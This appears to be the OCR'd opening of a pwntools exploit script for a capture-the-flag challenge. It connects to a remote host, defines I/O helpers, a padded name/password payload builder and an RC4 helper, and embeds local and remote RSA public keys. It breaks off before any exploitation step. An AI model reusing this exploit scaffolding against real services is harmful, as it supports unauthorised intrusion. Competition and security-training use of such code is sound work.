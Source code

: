 ```python
    p=remote("47.108.206.43",22820)

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
#p=remote("47.108.206.43",44947)
def func(name,passwd):
	payload=name.ljust(0x10,b"\x00")+passwd.ljust(0x40,b"\x00")
	return payload
def rc4_encrypt(data, key1):
      key = key1
      print(key)
      print(len(key))
      res = ARC4.new(key).encrypt(data).hex().encode()
      return res
def int_to_bytes(num):
    # 将整数转换为字节
    byte_data = num.to_bytes((num.bit_length() + 7) // 8, 'big')
    return byte_data

#register
# s("no\x00\x00")

# s(func(b"root",b"root"))

# root_public_key=ru("-----END PUBLIC KEY-----\n")

# print(root_public_key)

# s(root_public_key)


if local:
    #local public key
    root_public_key="""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAnJJhk+sxDQWZeBXmpECm
HaWTpiZIh4EQfm9irhC5wQFOByWwiCrVrdi37h43rnp0PvnXEhKgGIokdoZLl1St
NwApRX7RitZCo2V28PaQzwJwFQoy95RvvAHNn7gJSylEuKQfAbzC5oGH8IvWNokM
+wkSdtMQ9EzfKZ5eEfVJxUGofecK/4UsQqgOZPtumatJf84psQXtbQQTsw94dxoz
55JJ8z+wsaqx4v3d21pggORPv1oR1LwIpWne1yPgOW3egGtpCO4FhoclYOIFehwh
dD5aFsZ8fuRAQPMiOPOKUo5EZwz/L4eocGchQXQTK1PEBU392rnAvoee71EfSl7f
7QIDAQAB
-----END PUBLIC KEY-----
"""
else:
    # remote_public_key
    root_public_key="""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApoS1VyO6VZKyho32VC4/
btl1kgnMczBZvApAV2IC4h67fLbnnLlhOqiyIJcy6k6weK+JAdLCmquADnKJ3ZyW
eChvFKJ/L39Cb5YEZoJs3kNST0cHqtYI1bZX7vCe1KBfMPuygXxkgNTcxG4Fdzwi
SmKmYDcdDxeZP1z708x92fvPyYvFWiyaAzyw9QTqdH+JRcIRyVOdwc1ciSqqkaH4
TiOvVFHKsyInBIiF7bkl8mJMPb5vSKcVWrXHPEMcAiLmTG1mA1n/RKc+Ux3fUfjt
0UiATggCL86vCDcMhdToU+1QMdd3y+Nay9x/vm2thp/TpCl+MyzM1sld/TWJG+10
CwIDAQAB
```